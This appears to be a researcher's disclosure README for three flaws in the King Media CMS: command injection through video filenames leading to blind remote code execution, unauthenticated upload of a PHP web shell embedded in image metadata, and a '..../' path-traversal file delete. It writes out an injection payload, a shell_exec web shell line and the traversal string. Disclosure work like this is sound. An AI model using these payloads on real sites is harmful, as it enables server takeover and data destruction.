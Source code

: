 # King Media Script Vulnerabilities
King Media is a premium CMS that allows you create a website where share all type multimedia content like images, videos, etc... I ve found and reported some critical vulnerabilities and here I explain it.

## King Media > 2.x/3.x/4.x Blind RCE
### Information
Date: 15 Aug 2018
Author: Efren Diaz (https://twitter.com/elefr3n)
Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)
Reported to vendor: 11 Jun 2018
Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877
Version: from 2.0 to 4.1 (latest)
CVE: None

### Vulnerability description
The RCE is in the file videoupload.php, when the script finish the upload, execs a command with the ffmepg library to get a video thumbnail and here his where we can inject our command. The script receives the file with the $_FILES['myfile'] parameter, first checks that the request come from AJAX (HTTP_X_REQUESTED_WIDTH), second checks that the file type is 'video/mp4', and then uploads the video (nothing that we can not bypass). When the upload is finished calls with shell_exec a command to get the video thumbnail with /usr/bin/ffmpeg, we can see in the next line:
```
$cmd = "$ffmpeg -i $video; ls #  -deinterlace -an -ss $second -t 00:00:01 -r 1 -y -vcodec mjpeg -f mjpeg $image 2>&1";
```
We can send a video with our command in the file extension (example: foo.mp4;command #), but php gets the file name from $_FILES['myfile']['name'], then if our command contents a slash or other invalid filename character, will be removed. To avoid this problem, we need encode our command in hexadecimal and execute with a "custom payload" like this:
```
evil.mp4;echo $hex_encoded_command | xxd -r -p | sh #
```
With these payload our command will be executed correctly, but we dont get the command result because the return of shell_exec function is not printed, if we want get the command result we can send to a file in a directory where we have permissions (uploads for example)

### Exploit
exploit_blind_rce.php

## KingMedia 1.x/2.x/3.x/4.1 - Arbitrary File Upload

### Information
Date: 15 Aug 2018
Author: Efren Diaz (https://twitter.com/elefr3n)
Greets: **Daniel F. Rodriguez** aka dj.thd
Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)
Reported to vendor: 11 Jun 2018
Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877
Version: from 1.0 to 4.1 (Lastest)
CVE: None

### Vulnerability description
The vulnerability resides in processupload.php, this file process all image uploads. In resume, the script checks that the file is a valid image, but dont check the extension. Other big issue of the script is that works with unauthenticated request.

-First checks that the execution comes from an AJAX request (HTTP_X_REQUESTED_WITH).
-Second check that the filetype is valid image (image/png | image/gif | image/jpeg | image/pjpeg).
-Third executes a custom function called resizeImage() that basically do a thumbnail with some GD library php functions, if the thumbnail creation fails the script stop working, you need upload a image file with a small php code inside the metadata (ex: <?php shell_exec($_POST['command']); ?>) and it will saved on http://site.com/uploads/{your_file_name}-{random_numbers}.{you_file_extension}

Note: For any reason, I haved found some versions of the CMS with a rule in the .htaccess file to disable the ".php" execution on the uploads directory, no problem we can try with other extensions (let your imagination run wild !)

### Exploit
exploit_arbitrary_file_upload.php


## King Media 1.9/2.x/3.x/4.x Arbitrary file delete
### Information
Date: 15 Aug 2018
Author: Efren Diaz (https://twitter.com/elefr3n)
Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)
Reported to vendor: 11 Jun 2018
Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877
Version: 4.0, 4.1
CVE: None
### Vulnerability Description:
The vulnerability resides in the file multipledelete.php file, this file receive a string in the parameter $_POST['name'], and try if exists the files and delete the next patterns:
```
uploads/CURRENT_YEAR/CURRENT_MONTH/{$_POST['name']}
uploads/CURRENT_YEAR/CURRENT_MONTH/thumb_/{$_POST['name']}
```
First, the script dont checks if we are athenticated, second, to avoid that you can upload directory, haves the next code in the line 10:
```
$fileName=str_replace("..",".",$fileName); //required. if somebody is trying parent folder files
```
To avoid this check is than easy like put four points, for example if we put ..../..../..../x.php in the $_POST['name'] parameter, we can delete a php file in the application path.

### Exploit
Do it yourself :D

